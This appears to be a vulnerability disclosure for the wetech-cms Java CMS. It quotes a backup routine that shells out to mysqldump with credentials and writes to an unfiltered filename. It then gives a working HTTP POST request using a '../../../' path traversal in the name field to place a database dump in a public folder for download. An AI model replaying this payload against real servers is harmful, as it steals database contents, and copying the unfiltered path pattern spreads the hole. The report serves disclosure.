

**BUG_Author:**

hadagaga

**Vendor:**

https://github.com/cjbi/wetech-cms

**Software:**

https://github.com/cjbi/wetech-cms

**Vulnerability File:**

#### wetech-cms-master\wetech-basic-common\src\main\java\tech\wetech\basic\util\BackupFileUtil.java

```java
	public void backup() {
		BufferedReader br = null;
		BufferedWriter bw = null;
		try {
			String cmd = "cmd /c mysqldump -u"+username+" -p"+password+" "+database;
			Process proc = Runtime.getRuntime().exec(cmd);
			br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
			bw = new BufferedWriter(
					new FileWriter(backupDir+File.separator+filename+".sql"));
			System.out.println(backupDir+File.separator+filename);
			String str = null;
			while((str=br.readLine())!=null) {
				bw.write(str);
				bw.newLine();
			}
		} catch (IOException e) {
			e.printStackTrace();
		} finally {
			try {
				if(br!=null) br.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
			try {
				if(bw!=null) bw.close();
			} catch (IOException e) {
				e.printStackTrace();
			}
		}
	}
```

​	There is a directory penetration vulnerability when this function creates a compressed package, and when I traced it up, I found that there was no filter for the input parameter filename, so I could create a compressed package file anywhere, and even pass it to the upload folder and download it directly through URL access to achieve de-database.
	The payload is as follows:

```http
POST /admin/backup/add.do HTTP/1.1
Host: 172.21.55.165:8888
Content-Length: 38
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.55.165:8888
Referer: http://172.21.55.165:8888/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cto_bundle=hVSq4l9ZUGQ2dzF1TiUyQmYlMkJhTUZKMXA1U3lTZTdnbWhmdlVhT3U1eGNIZXAlMkJyNDA1Qm83NUd5bVM1bXRONGdXMng1NVNYRHdrZXhQNmtWVk9uU0tNVnJYMjglMkJaQWFTdDRGdGRMck1DNkVvWEUyUVh5MWQlMkZvZkZ3YURyd1pnZjhvbWYlMkJMNHpWUmVCczZPc1lEeFNrMnRMYWxqSXclM0QlM0Q; collapase-nav=collapse-nav2; JSESSIONID=382FCF7BF762009C987ED7A0D73AF0C0
Connection: close

name=../../../indexPic/hadagaga123
```

​	We visit http://localhost:8888/resources/indexPic/hadagaga123.tar.gz


